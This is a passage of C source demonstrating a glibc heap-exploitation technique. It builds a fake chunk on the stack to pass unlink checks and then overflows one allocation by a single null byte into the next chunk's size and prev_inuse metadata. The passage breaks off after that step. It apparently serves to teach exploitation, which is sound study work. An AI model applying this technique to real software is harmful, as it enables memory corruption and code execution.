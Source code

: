 ```c
	fprintf(stderr, "This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.\n");
	fprintf(stderr, "This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* d;

	fprintf(stderr, "\nWe allocate 0x38 bytes for 'a'\n");
	a = (uint8_t*) malloc(0x38);
	fprintf(stderr, "a: %p\n", a);
    
    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "Since we want to overflow 'a', we need the 'real' size of 'a' after rounding: %#x\n", real_a_size);

    // create a fake chunk
    fprintf(stderr, "\nWe create a fake chunk wherever we want, in this case we'll create the chunk on the stack\n");
    fprintf(stderr, "However, you can also create the chunk in the heap or the bss, as long as you know its address\n");
    fprintf(stderr, "We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");
    fprintf(stderr, "(although we could do the unsafe unlink technique here in some scenarios)\n");

    size_t fake_chunk[6];

    fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
    fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
    fake_chunk[2] = (size_t) fake_chunk; // fwd
    fake_chunk[3] = (size_t) fake_chunk; // bck
    fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
    fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
    
    
    fprintf(stderr, "Our fake chunk at %p looks like:\n", fake_chunk);
    fprintf(stderr, "prev_size (not used): %#lx\n", fake_chunk[0]);
    fprintf(stderr, "size: %#lx\n", fake_chunk[1]);
    fprintf(stderr, "fwd: %#lx\n", fake_chunk[2]);
    fprintf(stderr, "bck: %#lx\n", fake_chunk[3]);
    fprintf(stderr, "fwd_nextsize: %#lx\n", fake_chunk[4]);
    fprintf(stderr, "bck_nextsize: %#lx\n", fake_chunk[5]);

	/* In this case it is easier if the chunk size attribute has a least significant byte with
	 * a value of 0x00. The least significant byte of this will be 0x00, because the size of 
	 * the chunk includes the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);

	fprintf(stderr, "\nWe allocate 0xf8 bytes for 'b'.\n");
	fprintf(stderr, "b: %p\n", b);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
    /* This technique works by overwriting the size metadata of an allocated chunk as well as the prev_inuse bit*/

	fprintf(stderr, "\nb.size: %#lx\n", *b_size_ptr);
	fprintf(stderr, "b.size is: (0x100) | prev_inuse = 0x101\n");
	fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; 
```